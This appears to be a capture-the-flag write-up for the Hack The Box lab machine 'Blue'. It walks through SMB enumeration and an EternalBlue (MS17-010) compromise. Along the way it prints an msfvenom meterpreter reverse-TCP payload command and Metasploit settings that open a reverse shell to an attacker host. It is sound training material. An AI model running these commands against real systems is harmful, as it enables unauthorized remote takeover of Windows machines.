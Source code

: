 # Blue

First let's start our initial recon by using nmap.&#x20;

`nmap -sC -sV {target}`

It looks like this machine is running the following services:

* **135/tcp (msrpc)**: Microsoft Remote Procedure Call (RPC) - often used for various Windows services.
* **139/tcp (netbios-ssn)**: NetBIOS Session Service - used for file and printer sharing.
* **445/tcp (microsoft-ds)**: Microsoft Directory Services - also related to file and printer sharing, commonly used for SMB (Server Message Block) communications.
* **49152-49157/tcp (msrpc)**: Additional RPC ports that may be used for various Windows services or applications.

A couple of interesting things come up when running the scan

1. **Message Signing Disabled**: Without message signing, data integrity is compromised, making the system vulnerable to man-in-the-middle attacks where attackers can intercept or alter messages without detection.
2. **Guest Account Usage**: Allowing guest access can expose the system to unauthorized users, enabling them to exploit resources and potentially gain further access to sensitive information.
3. **Outdated OS**: Running an unsupported OS like Windows 7 means the machine no longer receives security updates, leaving it vulnerable to known exploits and increasing the risk of successful attacks.
4. **Clock Skew**: Significant clock skew can cause authentication mechanisms to fail, leading to unauthorized access or disruptions in service due to time-sensitive operations being incorrectly validated.
5. **Default Settings**: Relying on default settings indicates a lack of security hardening, which makes the system an easier target for attackers who can exploit common vulnerabilities associated with these configurations.

After running smbclient -L //10.10.10.40 -U guest we see a couple of available shares remotely. Includeing an Admin share. This is interesting.&#x20;

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

For fun, we can also use a tool called smbmap.

{% embed url="https://github.com/ShawnDEvans/smbmap" %}

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

We can try default credentials to login into the remote admin share.&#x20;

After trying default credentials, we are not able to break in. Next let's try to access the Users share.



It is well known that the EternalBlue exploit uses the IPC share to gain access to a root shell.&#x20;

{% embed url="https://www.exploit-db.com/exploits/42315" %}

Clone the following repository to use the exploit on the SMB server.&#x20;

{% embed url="https://github.com/worawit/MS17-010" %}

cd into the directory, and we have to edit the file using a text editor of your choice.&#x20;

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Add \\\ in the username field, this will work because the SMB server is running on a default configuration.

Another modification is needed for the script inside teh "smb\_pwn" function, by default the python script only creates a text file in the root of the drive. We can add a couple lines to execute a target command and acheive RCE. We can create a binary using the following command:

msfvenom -p windows/meterpreter/reverse\_tcp lhost=\<lhost> lport=\<lport> -f exe > writeup.exe

**Meterpreter Reverse TCP** is a type of payload used in penetration testing, particularly within the Metasploit Framework. It establishes a reverse connection from a compromised target back to the attacker's machine, allowing for remote control and interaction with the target system.



Having troubles with this script as there are issues with concatenation. Going to try a new script in Metasploit.&#x20;



msf6 > search eternalblue

msf6 > use exploit/windows/smb/ms17\_010\_eternalblue\
\[\*] No payload configured, defaulting to windows/x64/meterpreter/reverse\_tcp\
msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set RHOSTS 10.10.10.40 RHOSTS => 10.10.10.40\
msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse\_tcp\
PAYLOAD => windows/x64/meterpreter/reverse\_tcp msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set LHOST 10.10.14.2 LHOST => 10.10.14.2 msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

The reverse shell has been acheived. I we run getsystem, we can see that we are already running at the highest level priviliges possible.&#x20;

Running a simple search -f root.txt command we can grab the root flag.&#x20;

Run shell, cd to the directory.&#x20;

type root.txt

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>
